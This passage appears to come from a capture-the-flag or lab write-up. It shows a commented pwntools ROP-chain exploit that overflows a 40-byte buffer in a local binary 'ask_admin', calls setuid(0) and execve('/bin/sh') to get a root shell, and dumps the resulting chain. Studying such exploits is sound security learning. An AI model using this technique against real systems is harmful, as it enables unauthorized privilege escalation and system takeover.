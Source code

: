 ```python
rop.rdi = 0  
# We need a syscall + ret. We scan "elf", our binary, to find one.
rop.raw(next(elf.search(asm('syscall ; ret;'))))  
  
# Next step: execve("/bin/sh")

# First parameter: rdi points at /bin/sh
# We will put the "/bin/sh" string in the writeable .data section
data_section = elf.get_section_by_name('.data').header.sh_addr 

# We put our (small enough) text in rdx, the target destination in rdi...
rop.rdx = b"/bin/sh\x00"  
rop.rdi = data_section  
# ... and we find and add a gadget to move rdx's value where rdi points at
rop.raw(next(elf.search(asm('mov qword ptr [rdi], rdx; ret;'))))  

# Second and third parameters : rsi and rdx point at 0
# We set rax to 0, rsi and rdx in .data (just after our chain)
rop.rax = 0  
rop.rsi = rop.rdx = data_section + 8  
# And we move rax's value (so, 0) there.
rop.raw(next(elf.search(asm('mov qword ptr [rsi], rax; ret;'))))  

# Last one : rax = 59, then syscall
rop.rax = 59  
rop.raw(rop.syscall.address)  

# This will shows how much work we saved :-)  
print(rop.dump())  

# Build and push the payload
# (remember, offset is 40-byte-long : 32 for the buffer, 8 for the rbp)
payload = b"a" * 40 + rop.chain()
p.sendline(payload)  

# Switch to interactive mode to play with our shell.
p.interactive()
```

And that's it. Let's start our exploit locally :
```
./exploit.py 
[*] Loading gadgets for '/root/ask_admin'
[+] Starting local process './ask_admin': pid 22613
0x0000:         0x43e350 pop rax; ret
0x0008:             0x69
0x0010:         0x400cb8 pop rdi; ret
0x0018:              0x0
0x0020:         0x464bb9 syscall; ret
0x0028:         0x403ca2 pop rdx; ret
0x0030:   b'/bin/sh\x00' b'/bin/sh\x00'
0x0038:         0x400cb8 pop rdi; ret
0x0040:         0x6a70e0 data_start
0x0048:         0x429573
0x0050:         0x43e350 pop rax; ret
0x0058:              0x0
0x0060:         0x406ba8 pop rsi; ret
0x0068:         0x6a70e8 __x86_rep_stosb_threshold
0x0070:         0x403ca2 pop rdx; ret
0x0078:         0x6a70e8 __x86_rep_stosb_threshold
0x0080:         0x43fe05
0x0088:         0x43e350 pop rax; ret
0x0090:             0x3b
0x0098:         0x401c8d syscall
```